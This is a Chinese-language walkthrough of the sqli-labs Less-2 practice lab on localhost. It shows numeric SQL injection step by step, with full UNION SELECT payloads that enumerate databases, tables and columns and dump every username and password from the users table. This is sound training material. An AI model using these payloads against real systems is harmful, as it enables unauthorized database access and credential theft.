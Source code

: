 字符型的注入和这一小节来说数字型的注入基本上一样。来到第二关，尝试注入确定其报错类型：

+ `http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=1`没有报错，正常回显
+ `http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=1'`语法错误

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641794900387-531bbe7d-bd07-410e-bb64-e838adb12a04.png)

+ `http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=1''`**语法错误**

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641794926103-c6ec135d-d9b9-43e8-8053-debaefadde1d.png)

+ `http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=1 and 1 = 1`没有报错，正常回显
+ `http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=1 and 1 = 2`没有报错，没有回显
+ `http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=1' --+`语法错误

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641795553942-bd4942a6-e73c-4f85-bf20-e46839274d87.png)



和上一关一样，根据回显内容和网页显示内容大致猜测查询语句的结构为：

```sql
select username,password from table_name where id = $_GET['id'] limit 0,1;
```

所以对应查询语句应该为：

1. `select username,password from table_name where id =1' limit 0,1;`
2. `select username,password from table_name where id =1'' limit 0,1;`
3. `select username,password from table_name where id =1 and 1 = 1 limit 0,1;`
4. `select username,password from table_name where id =1 and 1 = 2 limit 0,1;`
5. `select username,password from table_name where id = 1' -- limit 0,1;`

根据上面的内容可以确定为数字型注入，接下来判断这个表中数据有多少列即有多少个字段，可以使用`order by`判断，当`order by 4`时会发生错误：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641795834822-2484ec1d-ecbe-42c9-90d1-4b4fa9cf8ee3.png)

说明这个表中有3个字段。和上一小节一样下面使用由联合查询语句union来判断（不懂原理的可以看上一节）：

`http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id=-1 union select 1,2,3 --+`

> `select username,password from table_name where id = -1 union select 1,2,3 -- limit 0,1;`（再次强调这里select的内容未知）
>

可以看一下结果：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641796912983-413c0afe-69dc-4b89-8d0f-d394272dfeae.png)

根据此语句稍微更改即可带出当前的数据库和用户：`select username,password from table_name where id = -1 union select 1,user(),database() -- limit 0,1;`

即：`http://localhost:63342/WWW/sqli-labs-master/Less-2/index.php?id= -1 union select 1,user(),database() --+`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641797173623-56e82aa1-90e8-4ea5-9c2f-76f79c0813f3.png)

查询所有数据库的名称：`?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641797352615-2739625a-f0d7-4259-9177-8384a06f2fd1.png)

查询security数据库中的所有表：`?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641797804810-71c1b826-96e0-464e-a7ee-9a5c583dfe34.png)

然后查询user表中的字段：`?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641801563536-8d86ffef-b56f-4a2d-858b-eced8d672b4e.png)

查询users表中的所有内容：`?id = -1 union select 1,group_concat(username),group_concat(password) from users--+`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1641797937971-1e3dfc25-1b4d-469e-a3e5-c603aa1e60f1.png)

完成。

